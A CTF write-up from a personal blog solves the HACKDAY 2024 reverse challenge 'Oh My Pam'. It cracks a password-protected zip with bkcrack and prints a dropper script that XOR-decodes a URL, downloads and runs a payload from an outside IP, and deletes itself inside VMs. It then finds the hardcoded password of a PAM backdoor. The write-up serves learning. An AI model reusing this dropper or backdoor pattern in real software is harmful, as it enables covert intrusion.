 ```yaml
---
title: "⚙️ Oh My Pam"
date: 2024-01-22T17:37:46+01:00
tags: ["CTF","Writeups","HACKDAY 2024 Qualification","⚙️ Reverse"]
author: "Sirius14"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "HACKDAY 2024 Qualification Reverse challenge by Chelinka"
summary:  "HACKDAY 2024 Qualification Reverse challenge by Chelinka"
disableHLJS: false # to disable highlightjs
disableShare: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: false
ShowPostNavLinks: false
ShowWordCount: false
ShowRssButtonInSectionTermList: false
UseHugoToc: true
pygmentsUseClasses: true
pygmentsCodeFences: true
---
```


At the end of the Baby Web, you got a zip file. Find a way to retrieve its password and follow the steps until you find a password for the backdoor.

## First look

We have a zip file protected by a password, into this file there is 2 file :
- `DS.jpeg`
- `tool_retriever.py`

One good news is that we know what is DS.jpg, indeed at the end of Baby Web challenge we also have DS.jpg file.
In order to crack the zip we need to use [bkcrack](https://github.com/kimci86/bkcrack), with a known plaintext bkcrack can retrieve the key and brute force them to obtain the original password, or use them to create a new password
Our plaintext is not only DS.jpeg because in the zip file, DS.jpeg is compressed. So to have the compressed version we enter this command :

`zip compressed_image.zip DS.jpeg`

Then we can run bkcrack like this : 

`bkcrack -C SuperUltraTech30001.zip -c DS.jpeg -P compressed_image.zip -p DS.jpeg`

And here is the key : `3ea43676 82bd21a5 3f21d103`

With `bkcrack -k 3ea43676 82bd21a5 3f21d103 --bruteforce -r 10..15 ?p` we retrieve the original password : `Super5MDP7768`

P.S : We could replace the password but as you can see later original password is required

## Retreive backdoor

For the next step we can analyze tool_retriver.py

{{<highlight txt>}}
def is_inside_linux():
    return os.name == 'posix'

# Some code ...

def load_p2():
	key = (os.name + getuser() + sys.argv[1]).encode() # Пароль для zip-файла
	address = [47,7,7,29,8,72,64,64,65,98,91,66,84,66,27,124,116,102,25,6,3,12,95,28,7,8,12,27,12,64,7,38,5,21,23,31,84,33,51,49,69,82,24,93,8,10]
	addr = xor(key, address)
	if addr[1:5] == "http":
		r = requests.get(addr[1:]) # Add password or some shit to download it bruh
		with open("/tmp/.a", "wb") as f:
			f.write(r.content)
		subprocess.Popen(["/tmp/.a", detach=True])
	

if __name__ == "__main__":
    load_p2()
    if len(sys.argv) == 2 and is_inside_linux() and not is_inside_docker() and not is_inside_vm() and has_internet_access():
    	print("It works !")
    else:
    	try:
    		subprocess.check_output(['rm','tool_retriever.py','SuperUltraTech30001.zip'])
    	except subprocess.CalledProcessError:
    		pass
{{</highlight>}}

Here are the 3 useful functions, backdoor file is located at a url, and this address is xor with key. We can found this key like this :
- os.name -> `posix` (main condition)
- getuser() -> `root` (load_p2 condition)
- sys.argv[1] -> `Super5MDP7768` (russian commentary)

Key is : `posixrootSuper5MDP7768`
Xoring this key with address tab and we have url:

`http://51.210.106.154/static/r`

## Analysis

This file in bash script with base64 encoded part in which the real backdoor is downloaded, so we recover the real backdoor binary. Let's open IDA to reverse it.
We need to find password which enable this backdoor, and challenge title contains PAM. Thus we search function with name like pam authentication or someting like that.

Bingo, once disassembled we have a function named : `pam_sm_authenticate`

![disassembled function](/Sirius14_Blog/img/writeups/oh-my-pam_1.png)

This part was very interesting, we can understand that pam authentication token is stock into s1 with this line :

`pam_get_authtok(a1,6LL,&s1,0LL)`

Then s1 is compared to `.gnu.version_r`, it seems to be an unusual password but try it.

It is the right password flag is : __HACKDAY{.gnu.version_r}__ 